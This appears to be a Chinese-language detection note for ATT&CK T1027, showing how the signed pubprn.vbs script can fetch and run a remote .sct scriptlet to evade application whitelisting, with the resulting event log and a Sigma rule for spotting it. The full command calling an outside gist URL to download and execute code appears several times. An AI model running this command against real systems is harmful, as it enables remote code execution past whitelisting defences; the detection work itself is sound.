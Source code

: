 # T1027-Win-使用pubprn.vbs下载执行payload(白名单)

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码用于协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行。通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

在Windows 7以上版本存在一个名为pubprn.vbs的微软已签名WSH脚本，可以利用来解析.sct脚本：

```yml
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

win10，自行开启审核策略

```yml
Microsoft Windows [版本 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\ma jack>"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

在安装360终端管理软件环境下，会被拦截提示。

## 测试留痕

```log
事件ID： 4688
EventData 

SubjectUserSid S-1-5-21-3061901842-4133171524-864420058-1000 
SubjectUserName ma jack 
SubjectDomainName DESKTOP-NJ1U3F5 
SubjectLogonId 0x3e2c5 
NewProcessId 0x1378 
NewProcessName C:\Windows\System32\wscript.exe 
TokenElevationType %%1938 
ProcessId 0x14d0 
CommandLine "C:\Windows\System32\WScript.exe" "C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct 
TargetUserSid S-1-0-0 
TargetUserName - 
TargetDomainName - 
TargetLogonId 0x0 
ParentProcessName C:\Windows\System32\cmd.exe 
MandatoryLabel S-1-16-8192 

```

## 检测规则/思路

### sigma规则

```yml
title: 使用pubprn.vbs下载执行payload
description: 在Windows 7以上版本存在一个名为pubprn.vbs的微软已签名WSH脚本，可以利用来解析.sct脚本
status: experimental
tags:
    - attack.defense_evasion
    - attack.t1027
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        NewProcessName: "C:\Windows\System32\wscript.exe"
        CommandLine: "*pubprn.vbs"
    condition: selection
falsepositives:
    - Unkown
level: high
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1027

<https://attack.mitre.org/techniques/T1027/>

渗透测试笔记

<https://github.com/M1k0er/pentest-notes>
